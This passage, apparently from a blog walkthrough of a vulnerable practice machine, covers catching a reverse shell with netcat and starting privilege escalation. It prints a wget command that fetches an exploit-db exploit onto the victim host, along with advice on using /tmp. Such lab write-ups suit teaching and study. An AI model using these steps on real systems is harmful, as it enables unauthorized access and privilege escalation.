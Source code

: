 

<p>I placed my attack machine's IP in place of <em>attacker's_IP </em>and desired<em> </em>port in place of <em>port_no</em> so that It can connect to my host. But before executing it, I had to create a netcat server to receive that connection and get a reverse shell.</p>



<figure class="wp-block-image is-resized"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-38.png" alt="" class="wp-image-104" width="674" height="99"/></figure>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-39.png" alt="" class="wp-image-105"/></figure>



<p>We got a shell! Yay!</p>



<p>Now it's time for privilege escalation. Let's see some information about the operating system and kernel. We can do this by using the command <strong>uname </strong>or <strong>lsb_release</strong>. </p>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-40.png" alt="" class="wp-image-106"/></figure>



<p>I want you to notice few things in the output. The first is that it's using <strong>Linux kernel 2.6.X</strong> and The operating system it operates on is <strong>CentOS 4.5</strong>. <br>Now If you are an experienced pentester, you might be aware of that Linux kernels 2.6.X are vulnerable to <strong>Dirty Cow exploit</strong>. After trying couple of Dirty Cow exploits, I discovered that this vulnerability has been already patched by the maker of the box. So we can't use dirty cow exploit here. But we can use that CentOS version information to find exploits related to it.<br>Let's google!</p>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-41.png" alt="" class="wp-image-107"/></figure>



<p>Let's download this exploit in vulnerable machine and compile it. To download it on victim machine, I used the <strong>wget </strong>tool. </p>



<pre class="wp-block-code"><code>bash-3.00$ wget --no-check-certificate https://www.exploit-db.com/download/9542</code></pre>



<p>That <strong>--no-check-certificate </strong>is used to deal with SSL certificate exchange issue. Sometimes this command doesn't work as intended. In that case, simple copy the exploit code from the website and create a file in vicitim OS, paste the code there and compile it manually. <br>But, while doing so, you will find that you don't have write permissions on the directory. Then how to create a file? Here, you can use the <strong>/tmp</strong> directory as it is writable for all. Just navigate to /tmp and create the file.</p>



<p>Once the exploit code file is there, compile it using the following command:</p>
